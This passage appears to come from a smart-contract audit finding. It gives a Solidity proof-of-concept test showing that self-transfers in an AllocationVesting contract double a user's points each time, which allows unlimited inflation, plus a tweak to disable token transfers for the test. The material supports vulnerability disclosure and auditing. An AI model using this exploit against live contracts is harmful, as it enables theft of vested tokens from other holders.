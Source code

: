 ```solidity
                                                  totalAllocation,
                                                  address(babelVault),
                                                  maxTotalPreclaimPct);
    }

    function test_InfinitePointsExploit() external {
        AllocationVesting.AllocationSplit[] memory allocationSplits
            = new AllocationVesting.AllocationSplit[](2);

        uint24 INIT_POINTS = 50000;

        // allocate to 2 users 50% 50%
        allocationSplits[0].recipient = users.user1;
        allocationSplits[0].points = INIT_POINTS;
        allocationSplits[0].numberOfWeeks = 4;

        allocationSplits[1].recipient = users.user2;
        allocationSplits[1].points = INIT_POINTS;
        allocationSplits[1].numberOfWeeks = 4;

        // setup allocations
        uint256 vestingStart = block.timestamp + 1 weeks;
        allocationVesting.setAllocations(allocationSplits, vestingStart);

        // warp to start time
        vm.warp(vestingStart + 1);

        // attacker transfers their total initial point balance to themselves
        vm.prank(users.user1);
        allocationVesting.transferPoints(users.user1, users.user1, INIT_POINTS);

        // attacker then has double the points
        (uint24 points, , , ) = allocationVesting.allocations(users.user1);
        assertEq(points, INIT_POINTS*2);

        // does it again transferring the new larger value
        vm.prank(users.user1);
        allocationVesting.transferPoints(users.user1, users.user1, points);

        // has double again (4x from the initial points)
        (points, , , ) = allocationVesting.allocations(users.user1);
        assertEq(points, INIT_POINTS*4);

        // can go on forever to get infinite points
    }
}
```

Comment out the token transfer inside `AllocationVesting::_claim` since the setup is very basic:
```solidity
        // @audit commented out for PoC
        //vestingToken.transferFrom(vault, msg.sender, claimable);
```
